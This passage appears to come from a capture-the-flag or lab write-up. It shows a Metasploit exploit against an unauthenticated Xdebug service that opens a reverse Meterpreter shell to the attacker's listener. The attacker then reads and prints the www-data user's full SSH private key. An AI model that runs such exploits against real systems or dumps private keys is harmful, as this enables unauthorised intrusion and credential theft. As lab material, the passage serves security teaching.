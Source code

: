 ```console

Exploit target:

   Id  Name
   --  ----
   0   Automatic
   
msf6 exploit(unix/http/xdebug_unauth_exec) > run
[*] Started reverse TCP handler on 172.30.0.9:9001
[*] 172.20.0.10:80 - Waiting for client response.
[*] 172.20.0.10:80 - Receiving response
[*] 172.20.0.10:80 - Shell might take upto a minute to respond.Please be patient.
[*] 172.20.0.10:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 172.30.0.1
[*] Meterpreter session 2 opened (172.30.0.9:9001 -> 172.30.0.1:53424) at 2021-06-21 00:56:43 -0500

meterpreter > shell
Process 381 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And now Let's get the SSH private key of ```www-data```:
```console
cat /home/www-data/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
QEHYKteL1D+hJ80NDd7fJTtQgzT4yBDwrVKwIUSETMfWgzJ5z24LN5s/rcQYgl3i
VKmls3lsod8ilakdDoYEYt12L4ST/exEoVl0AyD9y8m651q40k1Gz4WzPnaHAlnj
mL6CANfiNAJoc8WnqZN5ruSrWhmivmDbKLlDCO5bCCzi2zMHJKqQkcBxdWk60Qhi
17UJMV3mKVQRprvpeTR2jCMykH81n2KU46doSQIDAQABAoIBAADCHxWtkOhW2uQA
cw2T91N3I86QJLiljb8rw8sj17nz4kOAUyhTKbdQ102pcWkqdCcCuA6TrYhkmMjl
pXvxXAvJKXD3dkZeTNohEL4Dz8mSjuJqPi9JDWo6FHrTL9Vg26ctIkiUChou2qZ9
ySAWqCO2h3NvVMpsKBwjHU858+TASlo4j03FJOdmROmUelcqmRimWxgneHBAHEZj
GqDuPjmPmw7pbThqlETyosrbaB3rROzUp9CKAHzYB1BvOTImDsb6qQ+GdKwewAQf
j60myPuxl4qgY8O2yqLFUH3/ovtPTKqHJSUFBO23wzS1qPLupzu1GVXwlsdlhRWA
Amvx+AECgYEA6OOd9dgqXR/vBaxDngWB6ToVysWDjO+QsjO4OpFo7AvGhMRR+WpK
qbZyJG1iQB0nlAHgYHEFj4It9iI6NCdTkKyg2UzZJMKJgErfgI0Svkh/Kdls23Ny
gxpacxW3d2RlyAv4m2hG4n82+DsoPcN+6KxqGRQxWywXtsBsYkRb+wkCgYEA53jg
+1CfGEH/N2TptK2CCUGB28X1eL0wDs83RsU7Nbz2ASVQj8K0MlVzR9CRCY5y6jcq
te1YYDiuFvT+17ENSe5fDtNiF1LEDfp45K6s4YU79DMp6Ot84c2fBDIh8ogH0D7C
CFdjXCI3SIlvc8miyivjRHoyJYJz/cO94DsTE0ECgYA1HlWVEWz4OKRoAtaZYGA1
Ng5qZYqPxsSWIL3QfgIUdMse1ThtTxUgiICYVmqmfP/d/l+TH7RI+0RIc54a7y1c
PkOhzKlqfQSnwmwgAg1YYWi/vtvZYgeoZ4Zh4X4rOTcN3c0ihTJFzwZWsAeJruFv
aIP6nGR1iyUNhe4yq6zfIQKBgANYQNAA2zurgHeZcrMUqsNdefXmB2UGPtKH9gGE
yhU9tMRReLeLFbWAfJj2D5J2x3xQ7cIROuyxBPr58VDGky2VTzRUo584p/KXwvVy
/LaJiVM/BgUCmhxdL0YNP2ZUxuAgeAdM0/e52time8DNkhefyLntlhnqp6hsEqtR
zzXBAoGBANB6Wdk/X3riJ50Bia9Ai7/rdXUpAa2B4pXARnP1/tw7krfPM/SCMABe
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----

```
